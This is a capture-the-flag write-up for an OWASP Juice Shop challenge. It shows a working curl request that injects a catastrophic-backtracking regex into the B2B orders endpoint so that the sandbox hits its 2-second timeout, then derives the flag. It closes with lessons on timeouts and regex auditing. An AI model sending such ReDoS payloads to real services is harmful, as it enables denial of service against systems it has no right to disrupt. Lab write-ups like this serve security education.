


# Successful RCE DoS

**Platform:** PCGCTF · **Challenge ID:** 201 · **Category:** Insecure Deserialization (JuiceShop track) · **Points:** 1350 · **Rank:** God

**Status:** Solved on PCGCTF — flag accepted.

## The challenge

> Perform a Remote Code Execution that occupies the server for a while *without using infinite loops*.

Same `POST /b2b/v2/orders` RCE sink as [Blocked RCE DoS](135-blocked-rce-dos.md), but this is the Juice Shop `rceOccupyChallenge`. The "without infinite loops" clause is the whole puzzle.

## Thought process

From `build/routes/b2bOrder.js`, the solve condition for this challenge is the vm **timeout**, not the loop detector:

```js
vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
...
if (getErrorMessage(err).match(/Script execution timed out.*/)) {
  solveIf(rceOccupyChallenge, () => true)   // <-- THIS challenge
} else {
  solveIf(rceChallenge, () => err === 'Infinite loop detected - reached max iterations')
}
```

So I need the code to run for **more than 2000 ms of wall-clock time** so `node:vm` fires `Script execution timed out` — but *without* a loop, because `notevil`'s `InfiniteChecker` counts AST-walk steps and would throw "Infinite loop detected" first (which would instead solve the *other* challenge).

Key insight: `notevil` only interprets the JavaScript AST it walks — it counts *its own* evaluation steps. When the script calls a **native** method, that runs in V8's C++ and counts as a *single* step, no matter how long it takes. So the move is to trigger one expensive native operation.

A **catastrophic-backtracking regex (ReDoS)** is perfect: `/(a+)+$/` against a long string of `a`s ending in a non-matching char forces exponential backtracking inside V8's regex engine. One `.test()` call = one `notevil` step (no infinite-loop trip) but seconds of CPU → the vm's 2 s timeout fires. Finite work, no loop — exactly "occupies the server for a while without using infinite loops."

## Solving it

```sh
curl -s -w 'elapsed: %{time_total}s\n' -X POST http://localhost:3000/b2b/v2/orders \
  -H "Authorization: Bearer $TOKEN" -H 'Content-Type: application/json' \
  -d '{"orderLinesData": "(function dos() { return /(a+)+$/.test(\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!\") })()"}'
```

Response after **~2.007 s**: `Error: Sorry, we are temporarily not available! Please try again later.` — the 503 the timeout branch emits. `challenges.rceOccupyChallenge` is marked solved.

The ~40 `a`s plus a trailing `!` guarantee no match, so the engine backtracks `2^n`-style and blows straight past 2 seconds. Fewer `a`s would return before the timeout; more would still just hit the 2 s cap.

## Deriving the flag

```python
import hmac, hashlib
key = b"0ae20b40bbb05e9cbde184f7e8625a6f21eaf6cb52259c1e0f4a287709a2c62b"  # CTF_KEY
hmac.new(key, b"Successful RCE DoS", hashlib.sha1).hexdigest()
# -> bbc463efd56f2ca5c841fb886af1a52aca88652d
```

## Screenshots

Exploit against the local instance (note the 2.007 s elapsed = the vm timeout):



Flag accepted on PCGCTF:



## Flag

```text
pcgCTF{bbc463efd56f2ca5c841fb886af1a52aca88652d}
```

## Takeaway

A sandbox that guards against *infinite loops* still falls to a single slow *native* call. ReDoS is the classic example: linear-looking code, exponential runtime, no loop in sight. Two lessons — (1) cap wall-clock time **and** kill the worker, since a timeout you only *detect* still cost you the CPU; (2) audit regexes for nested quantifiers (`(a+)+`, `(.*)*`) on attacker-controlled input.

## Reference

- `build/routes/b2bOrder.js` (timeout branch → `rceOccupyChallenge`)
- Related: [Blocked RCE DoS](135-blocked-rce-dos.md), [Memory Bomb](215-memory-bomb.md)
